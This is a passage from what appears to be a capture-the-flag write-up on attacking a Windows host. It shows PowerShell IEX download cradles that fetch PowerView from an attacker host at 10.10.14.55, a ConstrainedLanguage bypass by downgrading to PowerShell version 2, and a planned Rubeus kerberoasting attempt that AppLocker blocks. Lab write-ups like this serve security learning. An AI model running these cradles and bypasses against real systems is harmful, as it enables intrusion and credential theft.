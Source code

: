 So when downloading the powershell module through `IEX` which allows to load the powershell script in the memory without saving it on hard disk it gave an error "Cannot create type. Only core types are supported in this language mode."

```powershell
IEX(New-Object Net.WebClient).downloadString('http://10.10.14.55:2222/PowerView.ps1');
```

<img src="https://i.imgur.com/BnqEUie.png"/>

Searching for this error I found something related to this that there's a securtiy policy for powershell and it is set to `ConstrainedLanguage` which will block some cmdlets to be executed like downloading a file or loading the powershell script

https://cyberark-customers.force.com/s/article/language-mode-error

<img src="https://i.imgur.com/CYKMvuf.png"/>

Googling about bypassing this , I found an article which suggested that downgrading powershell would bypass it 

https://www.ired.team/offensive-security/code-execution/powershell-constrained-language-mode-bypass

So checking the current version of powershell we have here is 5.1.14393.2636 

<img src="https://i.imgur.com/8Y0cR3p.png"/>

Now spawning powershell version 2 and checking if it has security policies or not 

<img src="https://i.imgur.com/JP8il2S.png"/>

It shows `FullLanguage` meaning that we can execute any cmdlets as there's no restriction on it 

```powershell
powershell -version 2 -c "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.55:2222/PowerView.ps1');"
```

<img src="https://i.imgur.com/E4YR7Wh.png"/>

This downloaded the powershell script , so let's see if we can use any of the cmdlets of PowerView module

<img src="https://i.imgur.com/aHvLsP3.png"/>

Even tho we had bypassed powershell security policy but still we cannot run commands from PowerView so try let's using `Rubueus` that is an executable which we can perform kerberoasting 

<img src="https://i.imgur.com/OP1NLyI.png"/>

But running this exe will again throw an error that it is blocked  by group policy 

<img src="https://i.imgur.com/bC0leSX.png"/>

The exe is getting blocked because of `AppLocker being` used , now to check the status of AppLocker which essentially tell windows to allow or deny users to run any executables or files

